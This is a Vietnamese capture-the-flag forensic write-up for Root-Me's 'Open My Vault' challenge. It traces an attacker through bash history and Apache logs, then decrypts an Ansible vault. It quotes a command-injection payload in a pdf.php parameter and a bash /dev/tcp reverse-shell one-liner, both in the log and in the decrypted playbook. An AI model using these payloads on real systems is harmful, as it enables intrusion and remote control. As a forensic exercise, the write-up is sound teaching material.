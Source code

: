 # Open My Vault

Challenge: https://www.root-me.org/en/Challenges/Forensic/Open-My-Vault

Sau khi ssh vào server, ta kiểm tra history của user:

```bash
    1  id
    2  cat /etc/passwd
    3  pwd
    4  cd /home/m4st3r/
    5  ping 128.66.0.0
    6  cat /etc/shadow
    7  l
    8  ll
    9  cd ansible/
   10  ls -lah
   11  tree .
   12  cat inventory.cfg
   13  cat playbook.yml
   14  cat roles/zip/tasks/main.yml
   15  mkdir roles/other
   16  mkdir roles/other/tasks
   17  ansible-vault -h
   18  ansible-vault create roles/other/tasks/main.yml
   19  vim playbook.yml
   20  ansible-playbook -h
   21  ansible-playbook -i inventory.cfg --vault-password-file=/tmp/.secure playbook.yml
   22  rm /tmp/.secure
```

Ở dòng 21, m4st3r đã chạy một playbook đã mã hóa với password nằm ở `/tmp/.secure` và sau đó anh ấy đã xóa nó với `rm /tmp/.secure`

Thử chạy lại dòng 21, kết quả trả về là không thể vì thiếu ssh-key

Giờ thì check thử `/var/log` ta có:

```bash
ll /var/log/
total 712
drwxr-xr-x 1 root root              4096 Dec  4 11:53 ./
drwxr-xr-x 1 root root              4096 Dec  4 11:53 ../
-rw-r--r-- 1 root root             13764 Dec  4 11:56 alternatives.log
drwxr-xr-x 1 root adm               4096 Dec  4 12:05 apache2/
drwxr-xr-x 1 root root              4096 Dec  4 11:53 apt/
-rw-r--r-- 1 root root             58592 Sep 22 16:47 bootstrap.log
-rw-rw---- 1 root utmp                 0 Sep 22 16:47 btmp
-rw-r--r-- 1 root root            284658 Dec  4 11:56 dpkg.log
-rw-r--r-- 1 root root             32032 Dec  4 12:05 faillog
drwxr-sr-x 2 root systemd-journal   4096 Dec  4 11:53 journal/
-rw-rw-r-- 1 root utmp            292292 Dec 11 08:17 lastlog
drwx------ 2 root root              4096 Dec  4 11:53 private/
-rw-rw-r-- 1 root utmp               384 Dec 11 08:17 wtmp
```

Okay, giờ thì check log theo thứ tự ưu tiên là syslog -> weblog. Đúng là anh ấy đã quên xóa log. Ở `/var/log/apache2/access.log` ta tìm được thứ này:

```bash
203.0.113.0 - - [03/Sep/2022:13:34:31 +0200] "GET /pdf.php?name=a.pdf;echo%20%22C4tXk9ctpG9QEMeL%22%20%3E%20/tmp/.secure HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:57 +0200] "GET /pdf.php?name=a.pdf;bash%20-i%20%3E&%20/dev/tcp/128.66.0.0/4444%200%3E&1 HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Thứ này giống như website đã bị chèn shell. Decode với URL decode ta được:

```bash
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
bash -i >& /dev/tcp/128.66.0.0/4444 0>&1
```

Vậy là ta đã tìm được `.secure` password của vault. Giờ thì decrypt nó :

```bash
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
ansible-vault decrypt --vault-pass-file /tmp/.secure roles/other/tasks/main.yml
Decryption successful
...
cat roles/other/tasks/main.yml
- name: "hack the planet"
  ansible.builtin.shell: "bash -i >& /dev/tcp/128.66.0.0/4444 0>&1"

- name: "If someone search for a Flag ^^"
  ansible.builtin.shell: "echo '************' > /flag"
```

^^
